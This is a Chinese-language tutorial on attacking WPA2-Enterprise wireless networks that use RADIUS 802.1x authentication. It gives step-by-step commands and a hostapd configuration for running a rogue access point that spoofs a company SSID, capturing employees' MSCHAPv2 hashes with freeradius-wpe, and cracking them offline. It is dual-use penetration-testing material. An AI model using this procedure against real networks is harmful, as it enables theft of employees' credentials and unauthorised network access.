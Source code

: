 # 破解使用radius实现802.1x认证的企业无线网络

0x01前言概述
========

* * *

针对开放式(没有密码)无线网络的企业攻击，我个人感觉比较经典的攻击方式有2种，一种是`eviltwin`，一种是`karma`。`karma`应该是`eviltwin`攻击手法的升级版，攻击者只需要简单的监听客户端发的ssid探测和响应包就可以实现中间人了，受害者很少会有察觉。而且坊间曾有一个错误的认识，认为隐藏的ssid是不受`karma`影响的。但是实际情况是，客户端如果曾经连接过隐藏的ssid，也会广播这些网络的探测包。尽管`karma`这种攻击方式已经有10多年的历史了，但是在MAC OSX，ubuntu，老版本的andorid系统上依然有效。win7的默认配置居然是防护`karma`攻击的。

对加密的无线网络，针对个人网络，很多是使用**wpa2-psk**预共享密钥的方法来限制访问。而公司的无线网络有使用**wpa2**企业认证的，也有使用**radius**服务提供独立的用户名和密码来实现802.1x标准认证的。

0x02 实现过程
=========

* * *

我这里是的攻击是使用`hostapd`扮演一个无线访问点，然后通过打补丁的`freeraidus wpe`来捕捉密码hash，最后用`asleep`来离线破解密码，来对抗相对安全的使用**radius**服务器提供独立的用户名和密码实现的802.1x认证的企业无线网络环境。

所需设备：

```
TP-LINK TL-WN821N 
Kali 1.1.0

```

首先安装`freeradius-wpe`,既可以使用`dpkg`直接安装`freeradius-server-wpe_2.1.12-1_i386.deb`,也可以通过源码编译来安装，通过deb包安装方法的命令如下：

```
wget https://github.com/brad-anton/freeradius-wpe/raw/master/freeradius-server-wpe_2.1.12-1_i386.deb
dpkg --install freeradius-server-wpe_2.1.12-1_i386.deb
ldconfig
cd /usr/local/etc/raddb/certs
./bootstrap && ldconfig

```

![the progress pictures](http://drops.javaweb.org/uploads/images/1fbeffcef3196d3bcc5846011b60faa79621cf6b.jpg)

通过源码安装的步骤如下：

```
git clone https://github.com/brad-anton/freeradius-wpe.git
wget ftp://ftp.freeradius.org/pub/freeradius/freeradius-server-2.1.12.tar.bz2  
tar jxvf freeradius-server-2.1.12.tar.bz2
patch -p1 < ../freeradius-wpe.patch   
./configure
make install

```

![the progress pictures](http://drops.javaweb.org/uploads/images/2194ce0d988f6d0e571512ef5e33c905f77ffb7d.jpg)

然后执行`radiusd -X`开启`debug`模式验证是否安装成功，如果运行此命令的时候提示

```
Failed binding to /usr/local/var/run/radiusd/radiusd.sock: No such file or directory

```

则需要建立相应的目录

```
root@HackRF:/usr/local/etc/raddb/certs# mkdir -p /usr/local/var/run/radiusd/

```

接下来安装`hostapd`，命令如下：

```
wget http://hostap.epitest.fi/releases/hostapd-2.0.tar.gz
tar zxvf hostapd-2.0.tar.gz
cd hostapd-2.0/hostapd/
cp defconfig .config
make

```

![the progress pictures](http://drops.javaweb.org/uploads/images/9f29566a13610f15f2bf1c77e08a71cb49f71e65.jpg)

如果安装的时候提示：

```
../src/drivers/driver_nl80211.c:19:31: fatal error: netlink/genl/genl.h: No such file or directory
compilation terminated.
make: *** [../src/drivers/driver_nl80211.o] Error 1

```

则需要安装`libnl`开发包，命令如下：

```
root@HackRF:/hostapd-2.0/hostapd# sudo apt-get install libnl1 libnl-dev

```

然后编辑`hostapd-wpe.conf`文件，如下

```
interface=wlan0
driver=nl80211
ssid=corp-lobby
country_code=DE
logger_stdout=-1
logger_stdout_level=0
dump_file=/tmp/hostapd.dump
ieee8021x=1
eapol_key_index_workaround=0
own_ip_addr=127.0.0.1
auth_server_addr=127.0.0.1
auth_server_port=1812
auth_server_shared_secret=testing123
auth_algs=3
wpa=2
wpa_key_mgmt=WPA-EAP
channel=1
wpa_pairwise=CCMP
rsn_pairwise=CCMP

```

实际操作需要修改的地方只有ssid项，如果你的目标企业无线网络的ssid叫corp-lobby，则修改`ssid=corp-lobby`,运行`hostapd -dd hostapd-wpe.conf`开启伪造的无线热点

这时候如果有企业员工在你附近，他的手机会自动连接你的伪造的无线热点，你就可以通过

```
tail -f /usr/local/var/log/radius/freeradius-server-wpe.log

```

看到抓到的用户名和MSCHAPv2的响应hash和挑战hash。

![the progress pictures](http://drops.javaweb.org/uploads/images/9fdee59e96da1cb5192655189de8555b65bfcbd1.jpg)

有了challenge和response，就可以使用`asleep`工具来基于字典的暴力破解，命令如下

![the progress pictures](http://drops.javaweb.org/uploads/images/d4d48bec5ada7a867d354fb7ce0c6c4de2b94aa6.jpg)

使用**radius**实现802.1x认证的企业无线网络相对来说还是比较安全的，如果每个用户的密码足够复杂的话。后续的国外研究者也对这种攻击增加了针对客户端和路由设备的心跳漏洞的工具，集成的项目叫**cupid**,有兴趣的可以参考[http://www.sysvalue.com/en/heartbleed-cupid-wireless/](http://www.sysvalue.com/en/heartbleed-cupid-wireless/)

0x03 参考文章
=========

* * *

[http://phreaklets.blogspot.sg/2013/06/cracking-wireless-networks-protected.html](http://phreaklets.blogspot.sg/2013/06/cracking-wireless-networks-protected.html)[https://insights.sei.cmu.edu/cert/2015/08/instant-karma-might-still-get-you.html](https://insights.sei.cmu.edu/cert/2015/08/instant-karma-might-still-get-you.html)